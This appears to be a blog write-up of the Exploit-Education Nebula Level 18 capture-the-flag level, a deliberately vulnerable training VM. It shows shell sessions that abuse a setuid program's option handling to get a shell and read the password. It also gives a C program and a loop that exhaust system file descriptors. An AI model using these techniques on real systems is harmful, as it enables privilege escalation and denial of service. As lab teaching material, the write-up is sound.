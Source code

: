```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 18"
date:   2019-08-25 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
--- 
```

### [Exploit Education Level 18](https://exploit.education/nebula/level-18/)
## Challenge
Analyse the C program, and look for vulnerabilities in the program. There is an easy way to solve this level, an intermediate way to solve it, and a more difficult/unreliable way to solve it.

To do this level, log in as the `level18` account with the password `level18`. Files for this level can be found in `/home/flag18`.
level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 5376       0       204482
level18@nebula:~$

level18@nebula:~$ sysctl fs.file-nr
fs.file-nr = 19424      0       204482



level18@nebula:~$ cd ../flag18
level18@nebula:/home/flag18$ ./flag18 -d /dev/tty -v
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
./flag18: -d: invalid option
Usage:  ./flag18 [GNU long option] [option] ...
        ./flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
level18@nebula:/home/flag18$ ./flag18 --init-file -d /dev/tty -v
./flag18: invalid option -- '-'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'n'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 't'
./flag18: invalid option -- '-'
./flag18: invalid option -- 'f'
./flag18: invalid option -- 'i'
./flag18: invalid option -- 'l'
./flag18: invalid option -- 'e'
Starting up. Verbose level = 1
login
shell
Permission denied
login
logged in successfully (without password file)
shell
ls
--d  flag18  password  -v
getflag
You have successfully executed getflag on a target account
cat password
44226113-d394-4f46-9406-91888128e27a




#include <sys/stat.h>
#include <fcntl.h>
int main(int argc, char **argv, char **envp)
{
        int i=0;
        for (i=0;i<4096;i++)
        {
                printf ("%d\n",i);
                open("/tmp/open","r");
        }
getchar();
return 0;
}




level18@nebula:~$ gcc filed.c

level18@nebula:~$sysctl fs.file-nr
fs.file-nr = 153312     0       204482

level18@nebula:~$for i in {1..1000};do ./a.out & done

level18@nebula:~$sysctl fs.file-nr
-sh: start_pipeline: pgrp pipe: Too many open files in system
-sh: /sbin/sysctl: Too many open files in system
[1232]   Done(126)               ./a.out
[1233]   Done(126)               ./a.out
[1234]   Done(126)               ./a.out
[1235]   Done(126)               ./a.out
[1236]   Done(126)               ./a.out

level18@nebula:~$for i in {1..100};do kill "%$i";done

https://decepticode.wordpress.com/2016/05/07/nebula-level18/comment-page-1/